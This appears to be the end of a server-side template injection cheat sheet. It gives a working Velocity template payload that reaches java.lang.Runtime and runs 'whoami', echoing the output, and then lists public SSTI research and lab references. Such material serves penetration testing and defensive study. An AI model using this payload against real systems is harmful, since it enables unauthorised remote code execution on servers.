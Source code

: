 ## Velocity

[Official website](https://velocity.apache.org/engine/1.7/user-guide.html)
> Velocity is a Java-based template engine. It permits web page designers to reference methods defined in Java code.

```python
#set($str=$class.inspect("java.lang.String").type)
#set($chr=$class.inspect("java.lang.Character").type)
#set($ex=$class.inspect("java.lang.Runtime").type.getRuntime().exec("whoami"))
$ex.waitFor()
#set($out=$ex.getInputStream())
#foreach($i in [1..$out.available()])
$str.valueOf($chr.toChars($out.read()))
#end
```

---

## References

* [https://nvisium.com/blog/2016/03/11/exploring-ssti-in-flask-jinja2-part-ii/](https://nvisium.com/blog/2016/03/11/exploring-ssti-in-flask-jinja2-part-ii/)
* [Yahoo! RCE via Spring Engine SSTI](https://hawkinsecurity.com/2017/12/13/rce-via-spring-engine-ssti/)
* [Ruby ERB Template injection - TrustedSec](https://www.trustedsec.com/2017/09/rubyerb-template-injection/)
* [Gist - Server-Side Template Injection - RCE For the Modern WebApp by James Kettle (PortSwigger)](https://gist.github.com/Yas3r/7006ec36ffb987cbfb98)
* [PDF - Server-Side Template Injection: RCE for the modern webapp - @albinowax](https://www.blackhat.com/docs/us-15/materials/us-15-Kettle-Server-Side-Template-Injection-RCE-For-The-Modern-Web-App-wp.pdf)
* [VelocityServlet Expression Language injection](https://magicbluech.github.io/2017/12/02/VelocityServlet-Expression-language-Injection/)
* [Cheatsheet - Flask & Jinja2 SSTI - Sep 3, 2018 • By phosphore](https://pequalsnp-team.github.io/cheatsheet/flask-jinja2-ssti)
* [RITSEC CTF 2018 WriteUp (Web) - Aj Dumanhug](https://medium.com/@ajdumanhug/ritsec-ctf-2018-writeup-web-72a0e5aa01ad)
* [RCE in Hubspot with EL injection in HubL - @fyoorer](https://www.betterhacker.com/2018/12/rce-in-hubspot-with-el-injection-in-hubl.html?spref=tw)
* [Jinja2 template injection filter bypasses - @gehaxelt, @0daywork](https://0day.work/jinja2-template-injection-filter-bypasses/)
* [Gaining Shell using Server Side Template Injection (SSTI) - David Valles - Aug 22, 2018](https://medium.com/@david.valles/gaining-shell-using-server-side-template-injection-ssti-81e29bb8e0f9)
* [EXPLOITING SERVER SIDE TEMPLATE INJECTION WITH TPLMAP - BY: DIVINE SELORM TSA - 18 AUG 2018](https://www.owasp.org/images/7/7e/Owasp_SSTI_final.pdf)
* [Server Side Template Injection – on the example of Pebble - MICHAŁ BENTKOWSKI | September 17, 2019](https://research.securitum.com/server-side-template-injection-on-the-example-of-pebble/)
* [Server-Side Template Injection (SSTI) in ASP.NET Razor - Clément Notin - 15 APR 2020](https://clement.notin.org/blog/2020/04/15/Server-Side-Template-Injection-(SSTI)-in-ASP.NET-Razor/)
* [Expression Language injection - PortSwigger](https://portswigger.net/kb/issues/00100f20_expression-language-injection)
* [Bean Stalking: Growing Java beans into RCE - July 7, 2020 - Github Security Lab](https://securitylab.github.com/research/bean-validation-RCE)
* [Remote Code Execution with EL Injection Vulnerabilities - Asif Durani - 29/01/2019](https://www.exploit-db.com/docs/english/46303-remote-code-execution-with-el-injection-vulnerabilities.pdf)
* [Handlebars template injection and RCE in a Shopify app ](https://mahmoudsec.blogspot.com/2019/04/handlebars-template-injection-and-rce.html)
* [Lab: Server-side template injection in an unknown language with a documented exploit](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-in-an-unknown-language-with-a-documented-exploit)
* [Exploiting Less.js to Achieve RCE](https://www.softwaresecured.com/exploiting-less-js/)

